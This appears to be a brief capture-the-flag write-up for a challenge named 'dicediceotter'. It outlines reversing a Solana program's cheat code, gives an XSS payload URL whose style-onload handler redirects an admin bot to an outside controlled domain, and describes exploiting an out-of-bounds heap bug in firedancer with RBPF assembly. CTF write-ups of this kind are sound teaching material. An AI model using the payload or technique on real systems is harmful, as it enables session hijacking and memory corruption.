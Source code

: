 # dicediceotter

1. Reverse engineering the Solana program: The cheat code for the game is a 12-byte sequence starting with [1, 7, 7, 6], and the product of the 12 integers is 430,040,725,982,322.
2. Trigger the XSS bug by setting the innerHTML with a controlled `winner.name`. Use the following payload: https://ddg.mc.ax/?code=AQcHBg1lnbXFxwEB;<style onload=location="//shortdomain">. Now we can redirect the admin bot to a controlled site.
3. Exploit the OOB bug in firedancer. The bug stems from a misconfiguration of the heap size in the Solana VM. We can write RBPF assembly to gain direct memory access beyond the virtual heap, which resides on the current thread's stack.
